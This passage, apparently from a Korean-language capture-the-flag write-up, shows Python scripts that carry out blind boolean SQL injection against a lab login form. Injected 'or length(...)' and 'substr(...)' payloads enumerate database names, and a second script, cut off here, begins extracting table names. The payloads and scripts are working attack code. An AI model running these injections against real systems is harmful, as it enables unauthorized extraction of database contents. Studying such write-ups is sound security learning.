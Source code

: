   ```python
      print("[*] DB count is {}".format(dbCount))
      break

  #######################	
  ### Get all db name ###
  #######################
  dbcount = 0
  while dbcount<dbCount:
    dbnameLen = 0

    ########################
    # Get db name's length #
    ########################
    for length in range(0,30):
      payload = "' or length((select distinct(table_schema) from information_schema.columns limit {},1)) = {} #".format(dbcount, length)

      if sendPayload(payload).find('Invalid password') != -1:
        dbnameLen = length
        print("[*] {} db name length is {}".format(dbcount, length))
        break

    for i in range(1, dbnameLen+1):
      for char in chars:
        payload = "' or substr((select distinct(table_schema) from information_schema.columns limit {},1),{},1) = '{}'#".format(dbcount, i, char)

        if sendPayload(payload).find('Invalid password') != -1:
          tmp += char
          print(tmp)
          break
    dbname.append(tmp)
    tmp = ''
    dbcount += 1

  print(dbname)


  ```



   위 python script 를 돌려본 결과 level2라는 DB 존재를 알게 되었고, level2가 가지고 있는 table name을 알아내기 위해 킹갓 python code를 작성했다.

   ### Get table name (python code)
   
   ```python
    # File name: Get_table_name.py
    # This script gets table name in DB
    #
    #
    # Result table name ['admins', 'pages']

    import requests
    import string

    db_list = 'level2' # Real db list is 'information_schema', 'level2', 'mysql', 'performance_schema'
    chars = string.ascii_lowercase + string.punctuation + string.digits
    url = 'http://35.190.155.168/87ece3af89/login'

    tableCount = 0
    tmp = ''
    result_table_name = list()
   ```